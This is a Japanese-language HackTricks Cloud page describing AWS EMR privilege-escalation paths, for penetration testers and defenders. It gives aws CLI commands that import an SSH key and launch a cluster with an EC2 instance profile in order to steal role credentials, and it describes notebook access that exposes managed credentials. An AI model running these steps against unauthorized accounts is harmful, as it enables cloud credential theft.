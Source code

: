 # AWS - EMR特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## EMR

EMRに関する**詳細情報**は次を参照してください：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

これらの権限を持つ攻撃者は、**EC2ロールをアタッチした新しいEMRクラスタを実行**し、その資格情報を盗もうとすることができます。\
これを行うには、アカウントに**インポートされたいくつかのSSHプライベートキーを知っている**か、または1つをインポートし、**マスターノードでポート22を開くことができる**必要があります（`--ec2-attributes`内の`EmrManagedMasterSecurityGroup`および/または`ServiceAccessSecurityGroup`を使用してこれを行うことができるかもしれません）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
**EMRロール**は`--service-role`で指定され、**ec2ロール**は`--ec2-attributes`内の`InstanceProfile`で指定されています。ただし、このテクニックではEC2ロールの資格情報を盗むことができます（SSH経由で接続するため）が、EMR IAMロールは盗むことはできません。

**潜在的な影響:** 指定されたEC2サービスロールへの特権昇格。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

これらの権限を持つ攻撃者は、**AWSコンソール**に移動し、ノートブックを作成してアクセスし、IAMロールを盗むことができます。

{% hint style="danger" %}
ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWSの管理された資格情報を盗むことができ、IAMロールに関連する資格情報は盗むことができませんでした。
{% endhint %}

**潜在的な影響:** AWSの管理されたロールarn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへの特権昇格

### `elasticmapreduce:OpenEditorInConsole`

この権限だけで、攻撃者は**Jupyter Notebookにアクセスし、それに関連するIAMロールを盗む**ことができます。
ノートブックのURLは`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`です。

{% hint style="danger" %}
ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWSの管理された資格情報を盗むことができ、IAMロールに関連する資格情報は盗むことができませんでした。
{% endhint %}

**潜在的な影響:** AWSの管理されたロールarn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへの特権昇格

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
